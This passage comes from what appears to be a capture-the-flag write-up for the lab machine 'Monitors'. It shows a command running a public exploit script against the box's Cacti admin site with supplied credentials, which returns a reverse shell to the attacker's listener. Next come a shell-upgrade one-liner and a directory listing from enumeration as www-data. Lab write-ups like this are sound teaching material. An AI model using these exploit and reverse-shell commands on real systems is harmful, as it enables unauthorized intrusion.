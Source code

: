 ```
        pass
```

We start a listener on our local machine and now we can use the following command to run the exploit:

`python3 49810.py  -t http://cacti-admin.monitors.htb -u admin -p "Be*********************" --lhost <attack-ip> --lport <listener-port>`

![sqlexploit](/img/monitors/sqlexploit.png)

Checking our listener, we get reverse shell as `www-data`

![revsh](/img/monitors/revsh.png)

Upgrade shell using `python -c 'import pty;pty.spawn("/bin/bash")'`. 

---

## Enumeration as www-data

Looking in /home, we find user `marcus`. We can view the contents of /home/marcus.

```
total 40
drwxr-xr-x 5 marcus marcus 4096 Jan 25  2021 .
drwxr-xr-x 3 root   root   4096 Nov 10  2020 ..
d--x--x--x 2 marcus marcus 4096 Nov 10  2020 .backup
lrwxrwxrwx 1 root   root      9 Nov 10  2020 .bash_history -> /dev/null
-rw-r--r-- 1 marcus marcus  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 marcus marcus 3771 Apr  4  2018 .bashrc
drwx------ 2 marcus marcus 4096 Jan 25  2021 .cache
drwx------ 3 marcus marcus 4096 Nov 10  2020 .gnupg
-r--r----- 1 root   marcus   84 Jan 25  2021 note.txt
-rw-r--r-- 1 marcus marcus  807 Apr  4  2018 .profile
-r--r----- 1 root   marcus   33 Oct  7 19:13 user.txt
```
